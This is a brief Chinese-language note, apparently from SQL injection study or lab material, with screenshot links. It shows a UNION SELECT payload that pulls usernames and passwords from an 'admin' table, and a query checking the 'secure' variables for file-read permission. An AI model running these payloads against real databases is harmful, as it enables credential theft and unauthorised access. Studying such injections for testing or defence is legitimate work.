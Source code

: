 查询表名为“admin”，列名为“username,password”的第二个字段

```
union select 1,2,3,username,password,6 from admin limit 0,2
```

![image-20240317151645346](../图片/image-20240317151645346.png)



查询是否有读取权限

```
show GLOBAL VARIABLES LIKE "%secure%"
```



![image-20240317153625731](../图片/image-20240317153625731.png)
